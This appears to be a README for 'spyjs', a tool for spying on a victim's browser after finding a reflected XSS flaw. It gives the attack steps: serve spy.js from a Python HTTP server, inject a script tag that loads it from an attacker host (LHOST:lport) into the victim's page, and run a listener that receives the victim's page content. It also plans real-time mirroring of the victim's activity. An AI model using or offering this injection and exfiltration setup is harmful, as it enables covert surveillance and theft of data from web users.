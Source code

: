 # spyjs
Simple js sample to spy on browser, when reflacted xss found


Start server to serve js
```bash
python3 -m http.server 8080
```

Do on victim
```js
 <script src="http://LHOST:lport/spy.js"></script>
```

start listener
```bash
python3 listen.py 
```

# when triggered

![Screenshot](/imgs/callbk.png)

![Screenshot](/imgs/recv.png)

# version next
For future version (may be) i mprowould like to add little ivemnt and make it simulate victims web activity in real time mirrored, instade of receiving raw html
went to simulate it.





